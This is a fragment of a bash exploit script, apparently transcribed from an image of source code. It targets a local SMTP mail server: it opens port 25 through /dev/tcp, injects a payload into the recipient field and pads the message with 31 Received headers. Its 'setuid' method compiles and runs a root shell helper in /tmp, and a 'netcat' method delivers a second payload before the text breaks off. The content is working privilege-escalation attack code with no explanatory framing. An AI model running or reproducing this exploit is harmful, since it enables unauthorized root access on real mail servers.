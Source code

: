 ```]
function exploit()
{
	exec 3<>/dev/tcp/localhost/25

	read -u 3 && echo $REPLY
	echo "helo localhost" >&3
	read -u 3 && echo $REPLY
	echo "mail from:<>" >&3
	read -u 3 && echo $REPLY
	echo "rcpt to:<$PAYLOAD>" >&3
	read -u 3 && echo $REPLY
	echo "data" >&3
	read -u 3 && echo $REPLY
	for i in {1..31}
	do
		echo "Received: $i" >&3
	done
	echo "." >&3
	read -u 3 && echo $REPLY
	echo "quit" >&3
	read -u 3 && echo $REPLY
}

while [ ! -z "$1" ]; do
	case $1 in
		-m) shift; METHOD="$1"; shift;;
		* ) usage
		;;
	esac
done
if [ -z $METHOD ]; then
	usage
fi

if [ $METHOD = "setuid" ]; then

	echo "Preparing setuid shell helper..."
	echo "main(){setuid(0);setgid(0);system(\"/bin/sh\");}" >/tmp/pwned.c
	gcc -o /tmp/pwned /tmp/pwned.c 2>/dev/null
	if [ $? -ne 0 ]; then
		echo "Problems compiling setuid shell helper, check your gcc."
		echo "Falling back to the /bin/sh method."
		cp /bin/sh /tmp/pwned
	fi
	echo

	echo "Delivering $METHOD payload..."
	PAYLOAD=$PAYLOAD_SETUID
	exploit
	echo

	echo "Waiting 5 seconds..."
	sleep 5
	ls -l /tmp/pwned
	/tmp/pwned

elif [ $METHOD = "netcat" ]; then
	echo "Delivering $METHOD payload..."
	PAYLOAD=$PAYLOAD_NETCAT
	exploit
	echo
	echo "Waiting 5 seconds..."
	sleep 5
```